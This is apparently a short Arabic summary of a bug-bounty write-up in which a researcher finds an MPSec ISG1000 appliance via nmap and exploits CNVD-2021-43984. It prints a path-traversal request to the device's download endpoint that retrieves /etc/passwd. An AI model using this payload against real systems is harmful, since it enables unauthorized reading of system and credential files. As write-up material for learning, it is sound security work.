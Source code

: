 
this is a [writeup](# How i got my name featured on Nebraska University Hall Of Fame.)


الفكرة كلها ان الهاكر وهو بيعمل `scan` علي البورتات والخدمات اللي شغالة علي التارجت بأستخدام أداة `nmap` لقا أنهم بيستخدمو جهاز `MPSec ISG1000` وده جهاز بيستخدم لحماية الشبكة ولكن بعد البحث عليه لقي ان ليه ثغرة أمنية خطيرة **(CNVD-2021–43984)** تتيح للمهاجمين تنزيل ملفات حساسة بدون إذن.

فهو بيعمل ريكون لقي ال `endpoint` دي
```HTTP
https://[target]/webui/?g=sys_dia_data_down&file_name=example.txt
```
ف غيره ل ده
```HTTP
https://[target]/webui/?g=sys_dia_data_down&file_name=../../../../../../etc/passwd
```
و فعلا جاب الملف

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*GJkVN-6VvPmqzYqlb0avTA.jpeg)
